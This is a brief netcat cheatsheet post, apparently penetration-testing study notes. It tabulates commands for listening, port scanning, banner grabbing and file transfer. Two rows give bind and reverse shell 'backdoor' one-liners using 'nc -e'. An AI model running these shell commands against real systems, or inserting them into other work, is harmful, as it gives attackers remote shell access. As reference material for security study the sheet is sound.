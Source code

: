 Title: Yet another netcat cheatsheet
Summary: handy netcat commands
Category: cheatsheets
Tags: nettool, pwk, tools
Date: 2020-03-23 13:15
Status: published

No|Description              |Command
--|-------------------------|--------------------------------------------------
1 |Simple listener          |nc -n IP -p PORT -wSECS
2 |Simple port probe        |nc HOST PORT _or_ nc -n IP PORT
3 |Simple file  receiver    |nc -nl IP -p PORT > OUT.FILE
4 |Simple file transmitter  |nc -n IP PORT < IN.FILE
5 |Capture tranferred data  |-o switch both for client and server
6 |Simple port scan         |nc -vnz -w1 IP LOPORT-HIPORT
7 |"Banner grabber"         |echo "" \| nc -vn -w1 IP LOPORT-HIPORT
8 |Trivial backdoor server  |nc -nl IP -p PORT -e SHELL
9 |Trivial reverse backdoor |nc SRV PORT -e shell _or_ nc -n IP PORT -e SHELL

 1. Just listen for incoming connections, a "chat" server
 2. Probe remote port, time out after SECS seconds
 3. Dump received data to file
 4. Transmit file to remote receiver
 5. Dump captured data in custom format. not catching protocols data
 6. Try remote ports in range between LOPORT and HIPORT, open ports are printed
 7. Similar to scan but tries to grab any human readable banners from services
 8. Simple backdoor, not all netcat versions may have been compiled with `-e`
    switch
 9. Simple reverse backdoor, `-e` note from above is obviously applicable

#### Common params
`-r` to randomize ports, can be used with port ranges  
`-u` to use UDP as a transport  
`-v` add verbosity  
`-T` set TOS (DSCP)  
`-q N` wait N seconds to quit after EOF  
`-i N` delay N seconds  
`-w N` time out after N seconds of connection attempt  

#### See also
 - [SANS cheatsheet](https://www.sans.org/security-resources/sec560/
netcat_cheat_sheet_v1.pdf)
